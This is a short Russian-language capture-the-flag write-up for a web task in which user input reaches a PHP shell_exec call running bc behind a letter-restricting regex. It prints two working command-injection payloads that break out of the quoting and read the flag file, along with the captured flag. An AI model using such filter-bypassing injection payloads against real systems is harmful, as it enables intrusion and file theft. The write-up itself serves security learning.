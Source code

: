 BC (CTB 100)
=======
У нас есть онлайн калькулятор командной строки для Linux(https://hy17-bc.spb.ctf.su/).

Так же имеем исходный код страницы(https://hy17-bc.spb.ctf.su/?source), где мы передаем POST параметр `$expr`в
```php
shell_exec("bc 2>&1 <<<'$expr'")
```
Но есть проблема, перед тем как выполнить код выше, наш запрос проходит через регулярное выражение
```php
if (preg_match('#[g-wy-z]#si', $expr))
```
Которое гласит, что нам можно использовать только `[abcdefx]` и любые символы пунктуцации

Я очень долго искал решение к этому заданию, и пришел к такому выводу
```
'&&ex +%$'\x70' -$'\x73\x63\x71'! -c *;'
```
Перед там как написать свой Write-up, я глянул чужие работы и понял, что я сильно заморачивался и можно было так
```
';xxd f*;'
```
Обидно то, что вокруг этой команды я плясал оочень долго:D

И собственно флаг
> hy17{9edd3d10987207dc1f97a9bfc6af269f}
